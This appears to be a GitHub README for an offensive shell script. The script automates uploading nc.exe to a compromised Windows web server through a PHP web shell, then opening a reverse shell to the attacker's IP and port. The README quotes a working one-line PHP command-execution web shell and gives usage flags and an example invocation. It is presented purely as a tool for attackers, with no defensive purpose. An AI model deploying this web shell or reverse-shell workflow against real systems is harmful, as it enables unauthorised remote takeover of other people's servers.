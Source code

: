 # Windows_web_RCE_to_reverse_shell
The script will automate the upload of nc.exe to the windows machine and trigger it to get a reverse shell. 


If you manage to upload a php file containing somethings like that "<?php system($_GET["cmd"]);?>" you can then use this script to upload automaticly nc.exe on the target and send a reverse shell on your machine

!! Do not forget to check those value !!
Path of nc.exe on your machine 
Parameter name you use on the php file 


Parameter 

-h : to display the help function 
-u : url of the php file 
-i : ip for the reverse shell
-p : port for the reverse shell


Exemple Usage 

./script.sh -u http://example/file.php -i 127.0.0.1 -p 1234
